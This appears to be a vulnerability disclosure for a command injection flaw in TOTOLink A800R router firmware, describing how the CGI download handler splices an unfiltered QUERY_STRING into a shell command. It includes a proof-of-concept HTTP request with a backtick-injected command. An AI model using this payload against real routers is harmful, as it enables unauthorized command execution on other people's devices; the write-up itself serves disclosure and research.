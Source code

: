 # TOTOLink A800R V4.1.2cu.5137_B20200730 Has an command injection vulnerability

## Overview

- **Type**: command injection vulnerability
- **Vendor**: TOTOLINK (https://www.totolink.net/)
- **Products**: WiFi Router, such as  A800R V4.1.2cu.5137_B20200730,V4.1.2cu.5032_B20200408,V4.1.2cu.5137_B20200730,V5.9c.4050_B20190425,V5.9c.681_B20180413,V5.9c.4245_B20190726
- **Firmware download address:**https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/166/ids/36.html



## Description

### 1.Product Information:

TOTOLink A800R router, the latest version of simulation overview：

![Figure 1 Update date of the latest version of the firmware](images/image-20220213003820240.png)

### 2. Vulnerability details

![image-20220213004048568](images/image-20220213004048568.png)

TOTOLINK A800R V4.1.2cu.5137_B20200730 was discovered to contain a command injection vulnerability in the "Main" function. This vulnerability allows attackers to execute arbitrary commands via the QUERY_STRING parameter.

![Figure 2 Local of the vulnerability](images/image-20220212024252932.png)

We can see that the os will get ` QUERY_STRING`  without filter splice to the string `echo QUERY_STRING:%s >/tmp/download` and execute it. So, If  we can control the `QUERY_STRING`, it can be command injection.

## 3. Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Boot the firmware by qemu-system or other ways (real machine)
2. Attack with the following POC attacks

```
GET /cgi-bin/downloadFlile.cgi?payload=`ls>../1.txt` HTTP/1.1 
Host: 192.168.111.12 
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8 Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Connection: keep-alive 
Upgrade-Insecure-Requests: 1 
Cache-Control: max-age=0
```

![Figure 3 POC attack effect](images/22.png)

![Figure 4 POC attack effect](images/33.png)